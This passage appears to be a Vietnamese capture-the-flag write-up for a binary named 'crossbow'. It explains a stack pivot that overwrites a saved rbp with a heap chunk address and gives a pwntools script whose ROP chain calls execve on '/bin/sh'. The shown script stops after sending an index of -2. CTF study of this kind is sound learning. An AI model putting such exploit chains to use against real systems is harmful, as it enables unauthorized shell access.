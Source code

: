 ```c
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v16,
      v17);
    exit(69LL);
  }
  return result;
}
```

- ý tưởng của bài này sẽ là như sau: 

    - ta sẽ nhập 1 index để overwrite `rbp` của `target_dummy` thành địa chỉ chunk được calloc ra , và ta sẽ input vào đó 1 `rop_chain` để lấy shell , khi hàm `target_dummy` return về `training` , lúc này `rbp` của hàm `training` cũng chính là chunk được `calloc` ra , và nó sẽ tiếp tục `leave_ret` 1 lần nữa và nó sẽ return về rbp+8  , vậy ta sẽ đặt 1 rop_chain ở đó để lấy được shell dễ dàng 

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./crossbow',checksec=False)

p = process()
#p = remote('94.237.55.91',35353)

pop_rax = 0x401001 # pop rax ; ret
pop_rdi = 0x0401d6c # pop rdi ; ret
pop_rsi = 0x40566b # pop rsi ; ret
pop_rdx = 0x401139 # pop rdx ; ret
syscall = 0x404b51 # syscall; ret;
hehe = 0x4020f5 # mov qword ptr [rdi], rax ; ret

sh = b"/bin/sh\x00"
bss = 0x40e220

payload = flat(
    [
        pop_rax,
        sh,
        pop_rdi,
        bss,
        hehe,
        pop_rdi,
        bss,
        pop_rsi,
        0,
        pop_rdx,
        0,
        pop_rax,
        0x3b,
        syscall
        ]
)

payload = b"A"*8 + payload

input()
p.sendlineafter(b":", b"-2")
```